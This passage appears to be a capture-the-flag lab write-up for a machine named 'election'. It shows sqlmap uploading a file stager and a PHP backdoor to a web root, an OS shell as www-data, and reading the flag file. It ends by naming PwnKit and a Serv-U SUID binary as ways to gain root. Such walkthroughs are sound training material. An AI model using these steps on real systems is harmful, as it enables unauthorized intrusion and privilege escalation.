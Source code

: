 ```bash
[11:04:04] [INFO] fingerprinting the back-end DBMS operating system
[11:04:04] [INFO] the back-end DBMS operating system is Linux
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 4
do you want sqlmap to further try to provoke the full path disclosure? [Y/n] n
[11:04:09] [WARNING] unable to automatically retrieve the web server document root
what do you want to use for writable directory?
[1] common location(s) ('/var/www/, /var/www/html, /var/www/htdocs, /usr/local/apache2/htdocs, /usr/local/www/data, /var/apache2/htdocs, /var/www/nginx-default, /srv/www/htdocs, /usr/local/var/www') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 1
<SNIP>
[11:04:13] [INFO] trying to upload the file stager on '/var/www/html/' via LIMIT 'LINES TERMINATED BY' method
[11:04:13] [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://192.168.171.211:80/tmpubcpj.php
[11:04:13] [INFO] the backdoor has been successfully uploaded on '/var/www/html/' - http://192.168.171.211:80/tmpbfggz.php
[11:04:13] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> whoami
do you want to retrieve the command standard output? [Y/n/a] a
command standard output: 'www-data'
```

I can now transfer a PHP shell to the web root as before, then execute it to get a shell as www-data, then collect local.txt:

```bash
www-data@election:/home/love$ whoami
www-data
www-data@election:/home/love$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@election:/home/love$ hostname
election
www-data@election:/home/love$ hostname -I
192.168.216.211
www-data@election:/home/love$ cat local
0b96babda79f6eeb94c8c28721d39129
```

### Privilege Escalation

Privesc can be achieved through either the user love or www-data. Running Linpeas, I see that the machine is vulnerable to PwnKit, which is the simplest way to root. However, there is an interesting SUID binary that is vulnerable to local privilege escalation: Serv-U
